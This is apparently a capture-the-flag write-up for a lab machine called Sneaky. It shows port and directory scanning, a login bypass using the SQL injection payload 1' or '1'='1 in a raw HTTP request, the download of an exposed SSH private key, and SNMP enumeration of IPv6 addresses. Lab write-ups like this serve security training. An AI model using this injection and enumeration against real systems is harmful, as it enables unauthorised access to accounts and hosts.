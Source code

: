 ```bash
luc@kali:~/HTB/Sneaky$ nmap -vv --reason -Pn -sU -A --top-ports=20 --version-all 10.10.10.20
```

|Port|Service|Version
|---|---|---|
161/udp|snmp|SNMPv1 server; net-snmp SNMPv3 server (public)

## HTTP

We get an under development page when opening `http://10.10.10.20/`.

```bash
luc@kali:~/HTB/Sneaky$ gobuster dir -u http://10.10.10.20/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
...
/dev (Status: 301)
...
```

Browsing to `http://10.10.10.20/dev/` shows a login form and the message `Member's Area Only - Login Now!`.

```http
POST /dev/login.php HTTP/1.1

name=IDoNotExist&pass=1%27+or+%271%27%3D%271
```

We don't have an username or password so using SQL injection is our only way in if we don't want to brute force both. Sending the password `1' or '1'='1` actually logs us in and we get a page with a link to download a key, `http://10.10.10.20/dev/sshkeyforadministratordifficulttimes`, we can also see `name: thrasivoulos`  which probably is a user on the site.

```bash
luc@kali:~/HTB/Sneaky$ wget http://10.10.10.20/dev/sshkeyforadministratordifficulttimes
luc@kali:~/HTB/Sneaky$ file sshkeyforadministratordifficulttimes
sshkeyforadministratordifficulttimes: PEM RSA private key
```

Interestingly there is no authentication needed for downloading the key so in theory it would've been possible to find this url with a brute force.

## SSH

We've a SSH key, but the SSH port (22) isn't open. There can be different firewall rules for IPv4 and IPv6.

```bash
luc@kali:~/HTB/Sneaky$ python /opt/Enyx/enyx.py 2c public 10.10.10.20
...
[+] Loopback -> 0000:0000:0000:0000:0000:0000:0000:0001
[+] Unique-Local -> dead:beef:0000:0000:0250:56ff:feb9:cba4
[+] Link Local -> fe80:0000:0000:0000:0250:56ff:feb9:cba4
```

We can use [enyx.py](https://github.com/trickster0/Enyx) to find the IPv6 entries in the SNMP data.
